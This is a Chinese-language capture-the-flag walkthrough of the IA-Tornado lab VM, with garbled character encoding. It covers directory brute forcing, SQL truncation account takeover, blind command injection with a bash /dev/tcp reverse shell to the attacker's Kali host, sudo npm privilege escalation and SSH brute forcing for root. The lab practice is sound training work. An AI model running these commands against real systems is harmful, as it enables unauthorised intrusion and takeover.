# å‰è¨€

é¶æœºï¼š`IA-Tornado`，IP地å€ä¸º`192.168.10.11`

攻击：`kali`，IP地å€ä¸º`192.168.10.2`

都采用虚拟机，网å¡ä¸ºæ¡¥æ¥æ¨¡å¼

# 主机å‘ç°

因为是下载é¶æœºåˆ°æœ¬åœ°ï¼Œæ‰€ä»¥æ˜¯åŒä¸€å±€åŸŸç½‘，åŒä¸€ç½‘段，åŒä¸€ç½‘å¡ä¸‹ï¼Œæ‰€ä»¥ä¸ºæ±‚速度å¯ä»¥ä½¿ç”¨`arp-scan -l`或`netdiscover -r 192.168.10.1/24`

若想è¦æ¨¡æ‹ŸçœŸå®ç¯å¢ƒï¼Œå¯ä»¥ä½¿ç”¨`nmap`



# ä¿¡æ¯æ”¶é›†

## 使用nmap扫æ端å£



## 网站信æ¯æ¢æµ‹

访问80端å£é»˜è®¤ç•Œé¢ï¼Œå‘ç°æ˜¯`apachee2`的默认界é¢ï¼ŒæŸ¥çœ‹é¡µé¢æºä»£ç ä¹Ÿæœªå‘ç°å†…容



å°è¯•è¿›è¡Œç›®å½•çˆ†ç ´

使用`gobusterã€dirsearchã€dirbã€dirbusterã€ffuf`等工具进行爆破

```shell
gobuster dir -u http://192.168.10.11 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```



å‘ç°ä¸€ä¸ªè·¯å¾„`bluesky`，其他路径无å¯ç”¨ï¼Œè®¿é—®è¿™ä¸ªè·¯å¾„，å‘ç°æ˜¯ä¸€ä¸ªå‰ç«¯é¡µé¢ï¼Œä¸çŸ¥é“è¿™ç§æœ‰æ²¡æœ‰å’Œå端交互


哇，这个界é¢çœŸçš„很åƒç°åœ¨å¤§éƒ¨åˆ†çš„网站，都是å‰å端分离的，ä¸è¿‡è¿™é‡Œçš„é¶åœºä¸ç¡®å®šæ˜¯å¦ä¹Ÿæ˜¯ï¼Œæ‰€ä»¥å¯¹è¿™ä¸ªè·¯å¾„å†è¿›è¡Œä¸€æ¬¡æ‰«æ，å¯ä»¥çœ‹åˆ°è¿˜æ˜¯æœ‰å端的语言`php`

```shell
gobuster dir -u http://192.168.10.11/bluesky -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md
```



或者借助æµè§ˆå™¨æ’件`wappalyzer`也是å¯ä»¥å‘ç°ç¼–程语言的，这里若是å‘ç°å，就å¯ä»¥å†ä½¿ç”¨ç›®å½•çˆ†ç ´äº†



访问上é¢æ‰«æ出的路径，通过上é¢ä¹Ÿå¯ä»¥çœ‹åˆ°ï¼Œå¯ç”¨çš„路径两个，一个`login.php`一个`signup.php`

访问`login.php`

# æ¼æ´å¯»æ‰¾

å°è¯•è¾“入一些弱密ç ã€ä¸‡èƒ½å¯†ç ç­‰æ“作，无法登录æˆåŠŸ



å†è®¿é—®`signup.php`，å‘ç°è¾“å…¥å，会直æ¥æ示注册æˆåŠŸä¿¡æ¯



以注册的信æ¯è¿›è¡Œè®¿é—®`login.php`，并输入注册的信æ¯è¿›è¡Œç™»å½•



在点击`portfolio`时，出ç°ä¸‹é¢å­—符，说是`LFI`æ¼æ´è¢«ä¿®å¤äº†ï¼Œä½†æ˜¯ä¸è¦å¿˜è®°å†æµ‹è¯•

å…¶å®è¿™é‡Œç‚¹å‡»åŠŸèƒ½ç‚¹å，都未å‘ç°å…¶ä»–的利用，ä¸è¿‡è¿™é‡Œæ˜¯`php`，所以测试是å¦æœ‰éšè—ä¼ å‚支æŒæœ¬åœ°æ–‡ä»¶åŒ…å«ç­‰ï¼Œä¹Ÿå°±æ˜¯è¿›è¡Œçˆ†ç ´



这里先查看æ¯ä¸ªåŠŸèƒ½ç‚¹çš„页é¢æºä»£ç ï¼Œåœ¨`portfolio`这里的页é¢æºä»£ç ä¸­ï¼Œå‡ºç°æ•æ„Ÿç›®å½•ä¿¡æ¯



这里å‡è®¾ä¸çŸ¥é“这个路径，对æ¯ä¸ª`php`文件进行路径测试，å¯ä»¥ä½¿ç”¨`ffuf`或`wfuzz`

ä¸è¿‡è¿™é‡Œéœ€è¦å…ˆè·å–正在登录状æ€çš„用户的`cookie`æ‰è¡Œï¼Œå¯ä»¥ç›´æ¥ä½¿ç”¨æµè§ˆå™¨æŸ¥çœ‹ç™»å½•çš„`cookie`

以ç«ç‹æµè§ˆå™¨ä¸ºä¾‹ï¼Œæ‰“开开å‘者工具，å¯æŒ‰`f12`进入



或者利用工具`curl`

```shell
curl -X POST -d "uname=admin&upass=admin&btn=Login" http://192.168.10.11/bluesky/login.php -c c.txt
#-X选择请求方å¼ï¼Œè¿™é‡Œå¯ä»¥åœ¨æŸ¥çœ‹é¡µé¢æºä»£ç å¤„å‘ç°ï¼Œè¡¨å•æ交是POST
#-d 是POST请求体中的数æ®ï¼Œè¿™é‡Œçš„æ•°æ®å½¢å¼ï¼Œå¯ä»¥å€ŸåŠ©æµè§ˆå™¨ä¸­å¼€å‘者工具，其中的网络模å—，å¯ä»¥å‘ç°è¯·æ±‚å½¢å¼
#-c 把cookieä¿å­˜åœ¨å½“å‰ç›®å½•çš„c.txt文档中
```

查看`c.txt`å³å¯å‘ç°`cookie`çš„å称以åŠå€¼



这里è·å–到`cookie`了，那么为什么确定`cookie`æ‰å¯ä»¥å‘¢ï¼Œè¿™é‡Œä»¥`ffuf`为例，查看返å›

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php
#这是未设置爆破时的，并且未给予`cookie`
```



上é¢çš„è¿”å›ä¸ç›®å½•çˆ†ç ´æ—¶ä¸€æ ·ï¼Œéƒ½æ˜¯è¦`302`跳转的。

å†ä»¥æ·»åŠ `cookie`åçš„è¿”å›ä¸ºå¯¹æ¯”

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv"
```



å¯ä»¥çœ‹åˆ°ï¼ŒæŒ‡å®š`cookie`å，就å¯ä»¥ç›´æ¥è®¿é—®äº†ï¼Œæ‰€ä»¥è¿™ä¹Ÿæ˜¯ä»¥`cookie`åšèº«ä»½éªŒè¯çš„

那么å°è¯•ä½¿ç”¨`ffuf`进行测试，当然使用`burp`抓包爆破，就通过数æ®åŒ…ç›´æ¥çˆ†ç ´å³å¯ï¼Œå› ä¸ºè¯·æ±‚æ•°æ®åŒ…中å«æœ‰ç™»å½•çš„`cookie`ä¿¡æ¯

ä¸è¿‡è¿™é‡Œå­—典跑了很久，并未è·å–到任何传å‚等信æ¯ï¼Œå¹¶ä¸”登录å的几个`php`都测试了

```shell
ffuf -c -w /usr/share/wordlists/dirb/common.txt:FUZZ1 -w /usr/share/wordlists/wfuzz/Injections/Traversal.txt:FUZZ2 -u http://192.168.10.11/bluesky/port.php?FUZZ1=FUZZ2 -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv" -fs 2205
```


```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.11/bluesky/port.php?FUZZ=/home/tornado/imp.txt -H "Cookie:PHPSESSID=kmpfqldt8iqc6ps0cfklotvglv" -fs 2205
```

啧，已知的信æ¯å¤§æ¦‚就这么多，这里难é“ä¸æ˜¯é€šè¿‡ä¼ å‚进行文件包å«çš„å—

给出的路径`/home/tornado/imp.txt`

# ä¿¡æ¯æ³„露

分æ这个路径，一般`/home`是存放用户的家目录，而其目录下的一般都是用户，就å‡è®¾è¿™é‡Œçš„路径就是家目录。表示存在用户`tornado`。那么之å‰nmap扫æ的时候，目标为`linux`，是å¦å¯ä»¥ç¡®å®šè¿™ä¸ªè·¯å¾„具有多ç§è¡¨ç°æ–¹å¼

```shell
/home/tornado/imp.txt
~/imp.txt		#这里表示当å‰ç”¨æˆ·å®¶ç›®å½•ä¸‹çš„imp.txt
~tornado/imp.txt	#这里表示用户tornado家目录下的imp.txt
#一般  ~  å加用户å，表示æŸç”¨æˆ·çš„家目录
```

分ææ¥çœ‹ï¼Œä¸€èˆ¬ç½‘站的用户都是`www-data`，并且主目录ä¸æ˜¯åœ¨`/home`的，并且这里测试`php`文件有无传å‚，并未å‘ç°ï¼Œè¯´æ˜ç¡®å®ä¿®å¤äº†ï¼Œ ä¸è¿‡å‡è®¾ä¸é€šè¿‡ä¼ å‚呢，直æ¥é€šè¿‡ç½‘å€è¿›è¡Œè®¿é—®è¿›è¡Œæµ‹è¯•

当å‰çš„网å€è·¯å¾„有两个，其余å¯ä»¥ç›´æ¥çœ‹åˆ°çš„，无æ„义

```shell
http://192.168.10.11
http://192.168.10.11/bluesky
```

把这两个`url`ä¸ä¸Šé¢ä¸‰ä¸ªè·¯å¾„进行组åˆ

```shell
http://192.168.10.11/home/tornado/imp.txt
http://192.168.10.11/~/imp.txt
http://192.168.10.11/~tornado/imp.txt
http://192.168.10.11/bluesky/home/tornado/imp.txt
http://192.168.10.11/bluesky/~/imp.txt
http://192.168.10.11/bluesky/~tornado/imp.txt
```

然å使用`ffuf`测试哪些有返å›



å‘ç°`url`中`http://192.168.10.11/~tornado/imp.txt`有返å›ï¼Œè®¿é—®æŸ¥çœ‹ï¼Œå‘ç°å…¨æ˜¯é‚®ç®±åœ°å€



之å‰åœ¨è¿›è¡Œç™»å½•çš„时候，用户å处就是邮箱，测试这些用户å是å¦å­˜åœ¨

```shell
ceo@tornado
cto@tornado
manager@tornado
hr@tornado
lfi@tornado
admin@tornado
jacob@tornado
it@tornado
sales@tornado
```

在`signup.php`这里å¯ä»¥æµ‹è¯•æ˜¯å¦å­˜åœ¨ï¼Œä¸å­˜åœ¨å°±ä¼šåƒä¹‹å‰ä¸€æ ·ï¼Œæ示注册æˆåŠŸ

使用`burp`抓å–注册时的数æ®åŒ…，然å进行爆破



攻击æˆåŠŸå进行查看，因为这里使用的是`burp`社区版，所以ä¸èƒ½ç›´æ¥è¿›è¡Œæœç´¢ç»“æœï¼Œä¸è¿‡å¯ä»¥åœ¨è®¾ç½®ä¸­é…置匹é…，这里用户已注册会返å›`User already registered`，以这个进行匹é…，就å¯ä»¥æ¸…晰的看清了



这里å»ç½‘站看了一下，这个13是指长度，ä¸è¿‡è¿™é‡Œé•¿åº¦é™åˆ¶æ˜¯åœ¨è¡¨å•è¾“入，和我通过抓包修改有什么关系，我已ç»ä¸å—表å•æ§åˆ¶äº†ï¼ŒğŸ˜„

å…¶å®ä¸»è¦æ˜¯è§‚察这三个账户

```shell
admin@tornado
jacob@tornado
hr@tornado
```

ä¸è¿‡å‰é¢æ—¢ç„¶æ³¨å†Œäº†ï¼Œä½¿ç”¨`burp`å†éªŒè¯ä¸€ä¸‹ï¼Œå¥‡æ€ªçš„点出ç°äº†ï¼Œå‰é¢`manager`注册æˆåŠŸçš„，这里确登录ä¸äº†



# 分æ为sql截断

å‰å¾€æµè§ˆå™¨è¿›è¡Œæ‰‹å·¥æµ‹è¯•ï¼Œå‘ç°é•¿åº¦é™åˆ¶ï¼Œé‚£ä¹ˆå‰é¢æ³¨å†Œçš„是什么，分æ一下，在æµè§ˆå™¨è¿›è¡Œæ³¨å†Œï¼Œä¹Ÿæ˜¯æœ‰é•¿åº¦é™åˆ¶çš„，我是通过`burp`绕过这个å‰ç«¯çš„长度é™åˆ¶ã€‚

那么，通过`burp`注册的账户，到了数æ®åº“æ€ä¹ˆå¤„ç†çš„，或者说没到数æ®åº“的时候ç»è¿‡ä»€ä¹ˆå¤„ç†äº†ã€‚

ç›´æ¥è¾“入长度é™åˆ¶çš„è´¦å·`manager@torna`，啧，登录æˆåŠŸäº†

好家伙，说æ˜è¿™é‡Œå‰ç«¯çš„长度é™åˆ¶å’Œ`sql`是一样的，或者说å‰ç«¯æ˜¯å¯ä¿®æ”¹é•¿åº¦ï¼Œ`sql`是进行截断æ“作

这里长度é™åˆ¶ä¸º13，那么通过这ç§å½¢å¼ï¼Œæµ‹è¯•`sql`在进行截断的时候，是å¦è¿˜è¿›è¡Œæ•°æ®åº“中用户的检验，若没有，就å¯ä»¥å­˜åœ¨å¤šä¸ªç”¨æˆ·äº†ï¼Œå°¤å…¶æ˜¯ç©ºæ ¼ä¹‹ç±»çš„。

```
admin@tornado a
jacob@tornado a
hr@tornado    a
```



之åç›´æ¥ç™»å½•`admin@tornado`，以åŠæ³¨å†Œçš„密ç ï¼Œå‘ç°ç›´æ¥ç™»å½•æˆåŠŸï¼Œä½†æ˜¯æŸ¥çœ‹è¿™ä¸ªåŠŸèƒ½ç‚¹ï¼Œè¿˜æ˜¯ä¸è¡Œ



å†æ¢ä¸€ä¸ªæ³¨å†Œ`jacob@tornado a`，然å以`jacob@tornado`登录，好嘛，这里å¯ä»¥çœ‹åˆ°äº†



å‘ç°è¿™é‡Œè¾“入什么就会返å›ä»€ä¹ˆï¼Œè¿™ä¸å°±æ˜¯å¾ˆå¥½çš„`xss`å—，但是这里è¦`xss`还有什么用å—，都已ç»ç™»å½•äº†ï¼Œå°è¯•è¯•è¯•è¾“入一些命令，看其能å¦æ‰§è¡Œ

# 命令注入

ç»è¿‡æµ‹è¯•ï¼Œè¾“å…¥`idã€ls`等，直æ¥è¿”å›è¿™äº›å­—符，ä¸è¿‡ï¼Œæˆ‘这里测试一下`ping`的时候，å‘ç°é—®é¢˜ã€‚

我刚开始直æ¥è¾“å…¥`ping 127.0.0.1`，因为是`linux`ç•Œé¢ï¼Œæ‰€ä»¥ä¸€ç›´åœ¨åŠ è½½ï¼Œé‚£ä¹ˆï¼Œå¤§æ¦‚就清楚了。然å我把é¶æœºé‡å¯äº†ï¼Œç„¶åé‡æ–°éªŒè¯ï¼Œåªå‘é€5个包，`ping -c 127.0.0.1`，å‘ç°çœŸçš„有å˜åŒ–，确定是å¯ä»¥æ‰§è¡Œå‘½ä»¤ï¼Œåªæ˜¯ä¸æŠŠå›æ˜¾è¿”å›



å°è¯•è¿›è¡Œ`shell`å弹，先在`kali`中使用`nc`å¼€å¯ç›‘å¬9999端å£ï¼Œç„¶å输入下é¢å‘½ä»¤ï¼Œå¹¶æ‰§è¡Œ

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```



# ææƒ

## ææƒè‡³catchme用户

使用`find`寻找具有SUIDæƒé™çš„文件，å‘ç°`sudo`，直æ¥å°è¯•ï¼Œå‘ç°ä¸éœ€è¦å¯†ç ï¼Œæœ‰ä¸€ä¸ªç”¨æˆ·`catchme`的文件å¯æ‰§è¡Œ

```shell
find / -perm -4000 -print 2>/dev/null
```



对äºä¸çŸ¥é“`npm`çš„`sudo`ææƒï¼Œå¯ä»¥æŸ¥çœ‹ç½‘ç«™`gtfobins.github.io`中的帮助



```shell
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 tmp.Veh2PZ0bMR
sudo -u catchme npm -C $TF --unsafe-perm i
```


使用`dpkg`查看`python`版本，然å使用`python`è·å–交互å¼ç•Œé¢

```shell
dpkg -l | grep python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



## ææƒè‡³root用户

查看这个用户的家目录



把代ç ä¸­å·²ç»åŠ å¯†çš„那一串å°è¯•è¿›è¡Œåˆ†æ，因为执行过这个脚本，å‘ç°ä¸çŸ¥é“输入什么字符加密了。

ä¸è¿‡è¿™é‡Œå¯ä»¥é€šè¿‡æºä»£ç ç»™è¿›è¡Œå写，ä¸ä¼šå†™ä»£ç å°±ç›´æ¥ä¸¢ç»™`ai`，这里å¯ä»¥æ供代ç 

```python
import string

# 待解密的加密字符串
encrypted_text = "hcjqnnsotrrwnqc"

for key in string.printable:
    if len(key) > 1:
        continue
    s = "abcdefghijklmnopqrstuvwxyz"
    s = s.replace(key, '')
    s = key + s
    decrypted_text = ""
    for n in encrypted_text:
        j = ord(n)
        if j == ord(key):
            j = ord('a')
            decrypted_text += chr(j)
        elif n > 'a' and n <= key:
            j = j + 1
            decrypted_text += chr(j)
        elif n > key:
            decrypted_text += n
        elif ord(n) == 32:
            decrypted_text += chr(32)
        elif j >= 48 and j <= 57:
            decrypted_text += chr(j)
        elif j >= 33 and j <= 47:
            decrypted_text += chr(j)
        elif j >= 58 and j <= 64:
            decrypted_text += chr(j)
        elif j >= 91 and j <= 96:
            decrypted_text += chr(j)
        elif j >= 123 and j <= 126:
            decrypted_text += chr(j)
    print(decrypted_text)
```

然å执行这个脚本，把结æœé‡å®šå‘到一个文件中



å…¶å®æ•°æ®ä¸å¤šï¼ŒæŸ¥çœ‹ä¸€ä¸‹ï¼Œå°±å‘ç°ä¸€ä¸ªå¼•äºº`idkrootpassword`

把结æœè¿›è¡Œä¸€ä¸ª`ssh`爆破，针对`root`，因为已知的两个用户都用过了



查看最终文件




# 总结

该é¶æœºä¸»è¦è€ƒå¯Ÿä»¥ä¸‹å‡ ç‚¹

1. 对äºç½‘站路径，以åŠæœ¬åœ°æ–‡ä»¶åŒ…å«çš„注入点测试
2. 对äº`linux`中`~`表示什么æ„æ€ï¼Œä»¥åŠ`~用户`表示什么æ„æ€ï¼Œä»¥åŠ`/home`是存放什么的
3. 对äº`sql`截断注入的了解，è¦æµ‹è¯•å，æ‰èƒ½çŸ¥é“，这里就是观察到注册æˆåŠŸï¼Œä½†æ˜¯æ— æ³•æˆåŠŸç™»å½•çš„情况进行具体分æ
4. 对äºè¾“入框，输入什么返å›ä»€ä¹ˆï¼Œè‹¥æ˜¯æœªç™»å½•çŠ¶æ€ï¼Œä½¿ç”¨`xss`å¯è¡Œï¼Œå½“然，å®é™…情况中，若是真有，å¯ä»¥æ„造链æ¥ï¼Œå‘é€ç»™åˆ«äººã€‚这里是è¦è·å–`shell`，所以测试命令注入方é¢ã€‚虽然没有å›æ˜¾ï¼Œä½†æ˜¯åœ¨æ‰§è¡Œéœ€è¦æ—¶é—´çš„命令时，æ˜æ˜¾å‘ç°æ˜¯å¯æ‰§è¡Œå‘½ä»¤çš„
5. 对äº`sudo`ææƒçš„一些方法，这里是`npm`
6. 对äº`python`代ç ï¼Œæˆ–者能è·å–到关键信æ¯ä¹Ÿè¡Œï¼Œç°åœ¨`ai`å‘展迅速，å¯ä»¥é€šè¿‡`ai`ç›´æ¥å†™å‡ºé€†å‘解密的代ç 


